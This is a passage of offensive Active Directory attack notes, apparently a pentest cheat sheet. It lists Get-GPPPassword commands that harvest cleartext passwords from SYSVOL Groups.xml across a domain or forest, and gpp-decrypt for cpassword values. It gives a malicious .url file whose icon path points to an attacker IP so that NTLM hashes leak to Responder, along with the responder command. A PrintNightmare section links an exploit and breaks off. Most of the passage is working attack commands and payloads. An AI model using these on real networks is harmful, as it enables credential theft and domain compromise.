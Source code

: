 we can also use a powershell script called Get-GPPPassword

1. This command will give all cleartext passwords from the found SYSVOL share.Remember that we are interested in passwords from Groups.xml

> Get-GPPPassword  

2. This command will look for all SYSVOL shares for the entire domain

> Get-GPPPassword -Server domain.name

3. This command will search whole forest by mapping out trusts and accessing the accessible SYSVOL shares

> Get-GPPPassword -SearchForest

4. This will list out the found passwords only 

> Get-GPPPassword | ForEach-Object {$_.passwords} | Sort-Object -Uniq


 If we get access of Groups.xml in any other way we can copy the password stored in cpassword variable and decrypt using a tool called gpp decrypt
 
 > gpp-decrypt passwordhash


 
 
 
 
 
## Url File Attacks

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share

In this attack we create a url file ,pointing towards our ip address and then upload this file to a writable share with a appropriate name starting with @ or - so that the file is on top when any user access that share.We run responder on our machine and then wait for any user to open the file and we can grab the hash just like we did before. This requires access to any domain machine

1. create a file with following text and name it like "@anyname.url"

[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\AttackerIP\%USERNAME%.icon
IconIndex=1
 
2. Now we run responder and wait for the file to be opened

> responder -I eth0 -rdw




## PrintNightmare CVE-2021-1675

https://github.com/cube0x0/CVE-2021-1675

This cve works because of the spooler service running in windows and currently it is not patched and only mitigation is to disable spooler service so we need this service running in order to exploit
